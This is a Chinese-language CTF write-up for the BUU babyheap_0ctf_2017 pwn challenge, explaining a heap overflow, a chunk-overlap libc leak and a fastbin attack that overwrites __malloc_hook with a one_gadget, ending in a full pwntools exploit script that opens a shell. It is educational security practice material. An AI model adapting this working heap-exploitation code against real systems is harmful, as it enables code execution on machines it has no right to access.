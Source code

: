 ```yaml
---
title: BUU babyheap_0ctf_2017
description: BUU babyheap_0ctf_2017-writeup
date: 2021-07-04 15:07:56
categories:
 - PWN
tags:
---
```




# BUU babyheap_0ctf_2017

## IDA伪代码分析

首先检查一下文件

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1625406140517-19f8adca-e6fc-4ae9-bff6-a8541ca831cf.png)

拖入IDA查看

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1625406555881-dc0b3d5c-bdec-4706-a0f2-356a23d3b8de.png)

mmap了一段内存保存数据，跟做题没啥关系

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1625406688110-b62ea770-2436-4bac-8193-bae289ec8334.png)

典型的菜单

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1625406710430-03027b87-b5d3-4edc-8b6f-5efdabcf5b7e.png)

接收一个输入

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1625406728103-040771cc-da44-4a4a-9ee5-d5e90422efe3.png)

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1625406833431-c503b514-9274-41dd-80e6-0656c67da9ea.png)

Allocate的逻辑就是接收一个类似上图的结构，第一个1是判断是否已分配。这里讲一下calloc和malloc的区别，calloc不同于malloc，它会将分配的内存区域进行清零操作，这一点EXP里要注意，还有就是calloc就是malloc的一个封装，底层还是调用的malloc，这就对后面向__malloc_hook中打入one_gadget铺垫了基础。

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1625407157041-1b3c2e1e-8460-49c7-8886-30875181b437.png)

接收一个指定大小size的内容，存在堆溢出

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1625407176226-8e5849ec-30d3-46d0-aa15-608ba7f9dfc5.png)

free堆块，最后让指针等于0了，这就没有UAF了，可以从double free的思路入手。

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1625407322247-71341742-b64e-4a27-a357-0a3c102afd6f.png)

打印函数，可以将堆块的内容打印出来

## 做题思路

可以利用double free，首先申请四个chunk

```python
alloc(0x80) #0
alloc(0x80) #1 
alloc(0x80) #2
alloc(0x80) #3
```

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1625407805291-4bbce1ba-3649-4dd1-bc7c-ebc618887889.png)

free(1)将chunk1 free掉，然后通过堆溢出，修改chunk0的内容，将chunk1的size大小改成chunk1加chunk2的大小，0x121是由chunk1大小0x80和chunk2大小0x80，加上两个chunk的chunk头大小各0x10共0x20，加上prev_inuse位0x1，总共0x121，然后alloc(0x110)重新将chunk1分配回来，这样chunk1和chunk2就有重叠部分了，又因为calloc清零操作，需要通过堆溢出将chunk2的size大小改回去，然后将chunk2free掉，因为chunk2大小为0x80，free之后会进入unsorted bin，此时free chunk2的fd和bk指针指向main_arean+88的位置，然后通过dump(1)将chunk1打印，因为free chunk2也在chunk1的范围，这样就可以通过free chunk2的fd指针泄露出main_arean+88的地址

```python
free(1)
payload = 'a' * 0x88 + p64(0x121)
fill(0, payload)
alloc(0x110) #1
payload = 'a' * 0x88 + p64(0x91)
fill(1, payload)
free(2)
dump(1)
```

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1625408015726-e953bf4a-80fc-438b-81a4-12523c0f0798.png)

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1625408905348-1bc6cf14-10ed-41ca-af13-83bc6cb3f098.png)

为什么是main_aren+88，这是固定，我们可以通过调试看看

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1625408927798-4926a33c-4313-49dc-bac6-b8d4e07b29a6.png)

此时main_arean+88为0x7f8a25985b78，那么main_arean的地址就减去88为0x7f8a25985b20，那我们看看main_arean-0x10是什么东西

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1625409122442-713f4747-3d98-4dad-bc03-7cdab02ff94b.png)

发现是__malloc_hook的地址泄露出来了（这好像是固定main_arean-0x10的），这样我们就可以往里面打入one_gadget

```python
malloc_hook = u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00')) - 88 - 0x10
libc_base = malloc_hook - libc.sym['__malloc_hook']
log.success('libc_base==> {}'.format(hex(libc_base)))
```

之后的思路就是通过fastbin_attack，申请两个fastbin大小的chunk，不过首先要将chunk2申请回去，然后将chunk5 free掉，此时chunk5进入fast bin中，通过堆溢出，修改chunk4的内容，将chunk5的size大小改成0x71，反正在fastbin大小范围内就可以，然后将chunk5的fd指针改为__malloc_hook-0x23，为什么是__malloc_hook-0x23，我们等等通过调试看。

```python
alloc(0x80) #2
alloc(0x60) #4
alloc(0x60)	#5
free(5)
payload = 'a' * 0x68 + p64(0x71) + p64(malloc_hook-0x23)
fill(4, payload)
```

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1625409806579-e1bb66f4-90ee-4bbf-b30b-cd606536ed54.png)

这里我们可以看到__malloc_hook-0x23有一个0x7f，是不是很熟悉，像不像chunk的结构中的size的大小，那0x7f是在fastbin的大小范围内，所以上面我们要构造fastbin大小范围内的chunk，那这样__malloc_hook-0x23就是一个伪造的fake free chunk，此时free chunk5指向了这个fake free chunk，那我们重新申请回chunk5，再申请一个chunk6，通过修改chunk6的内容，将__malloc_hook的内容改成one_gadget的地址，最后再随便申请一个堆块，这样就会调用malloc，从而触发one_gadget

```python
alloc(0x60) #5
alloc(0x60) #6

one_gadget = 0x4526a + libc_base
payload = 'a' * 0x13 + p64(one_gadget)
fill(6, payload)
alloc(0x10)
```

这里提一下libc是在BUU的资源里下载的，这题是Ubuntu16 64位的

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1625410213820-e823d06c-b494-4c61-a968-f7ae050908a2.png)

## EXP

最后贴一下EXP

```python
from pwn import * 

# context.log_level = 'debug'

p = process('babyheap_0ctf_2017')
# p = remote('node4.buuoj.cn','27623')
libc = ELF('libc-2.23.so')

def alloc(size):
    p.recvuntil("Command: ")
    p.sendline("1")
    p.recvuntil("Size: ")
    p.sendline(str(size))
 
def fill(idx, content):
    p.recvuntil("Command: ")
    p.sendline("2")
    p.recvuntil("Index: ")
    p.sendline(str(idx))
    p.recvuntil("Size: ")
    p.sendline(str(len(content)))
    p.recvuntil("Content: ")
    p.send(content)
 
def free(idx):
    p.recvuntil("Command: ")
    p.sendline("3")
    p.recvuntil("Index: ")
    p.sendline(str(idx))
 
def dump(idx):
    p.recvuntil("Command: ")
    p.sendline("4")
    p.recvuntil("Index: ")
    p.sendline(str(idx))

alloc(0x80) #0
alloc(0x80) #1 
alloc(0x80) #2
alloc(0x80) #3
free(1)
payload = 'a' * 0x88 + p64(0x121)
fill(0, payload)
alloc(0x110) #1
payload = 'a' * 0x88 + p64(0x91)
fill(1, payload)
free(2)
dump(1)
pause()

malloc_hook = u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00')) - 88 - 0x10
libc_base = malloc_hook - libc.sym['__malloc_hook']
log.success('libc_base==> {}'.format(hex(libc_base)))

alloc(0x80) #2
alloc(0x60) #4
alloc(0x60)	#5
free(5)
payload = 'a' * 0x68 + p64(0x71) + p64(malloc_hook-0x23)
fill(4, payload)
alloc(0x60) #5
alloc(0x60) #6

one_gadget = 0x4526a + libc_base
payload = 'a' * 0x13 + p64(one_gadget)
fill(6, payload)

alloc(0x10)

p.interactive()
```